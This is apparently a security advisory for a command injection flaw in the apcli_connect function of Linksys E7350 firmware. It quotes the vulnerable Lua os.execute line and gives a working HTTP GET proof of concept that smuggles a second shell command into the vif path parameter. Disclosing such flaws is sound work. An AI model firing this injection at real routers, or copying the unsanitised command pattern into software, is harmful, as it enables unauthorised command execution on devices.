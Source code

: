 # Command injection vulnerability in apcli_connect function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in apcli_connect function in mtkwifi.lua

```
function apcli_connect(dev, vif)
 local dtrace = require "luci.debug";
 dtrace.trap_function_calls("apcli_connect");
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname=", vif)
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])
    local cfgs = mtkwifi.load_profile(profiles[devname])
    cfgs.ApCliEnable = "1"
    __mtkwifi_save_profile(cfgs, profiles[devname], true)
    os.execute("ifconfig "..vifname.." up") ---------------------------->  here
```

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/996f6494-a645-407a-a328-3d502b7ad7d5)

![图片](https://github.com/user-attachments/assets/329e2f84-e79f-4f3d-af33-6947202b0dd2)

Entry: /admin/mtk/wifi/apcli_connect/

! attention
To expolit successfully, we need the correct devname to pass the check. 
```
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])  ----------------->
```
here we use dev "MT7915D.1.1"


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.1/;ifconfig>a.txt HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic YWRtaW46
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
Here we set the arguments "dev" as "MT7915D.1.1" and vif as ";ifconfig>a.txt;", and there will be a file named "a.txt" in /www/




